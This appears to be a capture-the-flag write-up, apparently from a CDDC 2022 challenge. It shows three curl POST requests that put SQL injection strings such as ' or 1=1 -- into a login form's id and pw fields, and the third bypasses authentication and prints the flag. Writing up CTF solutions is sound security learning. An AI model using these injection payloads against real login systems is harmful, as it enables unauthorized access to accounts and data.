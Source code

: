 ```yaml
---
ai_date: 2025-04-27 05:11:47
ai_summary: SQL injection vulnerability exploited to bypass authentication and retrieve the flag
ai_tags:
  - sql
  - xss
  - rce
created: 2024-06-11T01:17
updated: 2025-07-14T09:46
---
```


Seems like the usual SQL injection

## Try 1

```shell
curl -X "POST" "http://13.215.173.140:51130/" \
     -H 'Content-Type: application/x-www-form-urlencoded; charset=utf-8' \
     --data-urlencode "id=admin" \
     --data-urlencode "pw=' or 1=1 --"
```

![](https://res.cloudinary.com/kumonochisanaka/image/upload/v1718083749/2024/06/77ff3c96de112411090d43bcc2c3c6f0.png)

Hrmm

## Try 2

```shell
curl -X "POST" "http://13.215.173.140:51130/" \
     -H 'Content-Type: application/x-www-form-urlencoded; charset=utf-8' \
     --data-urlencode "id=' or 1=1 --" \
     --data-urlencode "pw="
```

![](https://res.cloudinary.com/kumonochisanaka/image/upload/v1718083749/2024/06/4c5ea675746c69118ca3c5b4c3730586.png)

## Try 3

```shell
curl -X "POST" "http://13.215.173.140:51130/" \
     -H 'Content-Type: application/x-www-form-urlencoded; charset=utf-8' \
     --data-urlencode "id=' or 1 --" \
     --data-urlencode "pw="
```

![](https://res.cloudinary.com/kumonochisanaka/image/upload/v1718083750/2024/06/e785ec99d6acc52091341ee433906d6c.png)

```text
Login Success!
Flag is CDDC22{Th1s_i5_51mp1e_SQL_inj3ct10n}
```

erm, was this supposed to happen?